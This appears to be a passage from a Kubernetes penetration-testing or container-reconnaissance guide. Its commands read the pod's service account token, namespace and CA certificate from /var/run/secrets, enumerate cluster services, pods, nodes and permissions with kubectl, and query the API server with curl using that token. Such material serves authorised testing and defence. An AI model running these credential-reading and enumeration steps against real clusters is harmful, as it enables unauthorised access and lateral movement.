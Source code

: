 **2. Environment Variable Analysis**

```bash
# Extract Kubernetes environment variables
env | grep -i kube

# Expected variables:
# KUBERNETES_SERVICE_PORT_HTTPS=443
# KUBERNETES_SERVICE_PORT=443
# KUBERNETES_PORT_443_TCP=tcp://10.33.144.1:443
# KUBERNETES_SERVICE_HOST=10.33.144.1
```

**3. Service Account Token Discovery**

```bash
# Locate service account token
cat /var/run/secrets/kubernetes.io/serviceaccount/token

# Get namespace information
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace

# Extract CA certificate
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

**4. Network and Service Enumeration**

```bash
# Get cluster information (if kubectl is available)
kubectl cluster-info
kubectl cluster-info dump

# List all services across namespaces
kubectl get svc --all-namespaces

# Get comprehensive pod information
kubectl get pods -A -o json

# List nodes and their information
kubectl get nodes -o wide

# Check current permissions
kubectl auth can-i --list
```

**5. API Server Discovery via curl**

If kubectl is not available, use curl to interact with the API:

```bash
# Set variables
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
APISERVER=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT

# Test API connectivity
curl --cacert $CACERT --header "Authorization: Bearer $TOKEN" -X GET $APISERVER/api

# List pods in current namespace
curl --cacert $CACERT --header "Authorization: Bearer $TOKEN" -X GET $APISERVER/api/v1/pods

# List all namespaces
curl --cacert $CACERT --header "Authorization: Bearer $TOKEN" -X GET $APISERVER/api/v1/namespaces
```

---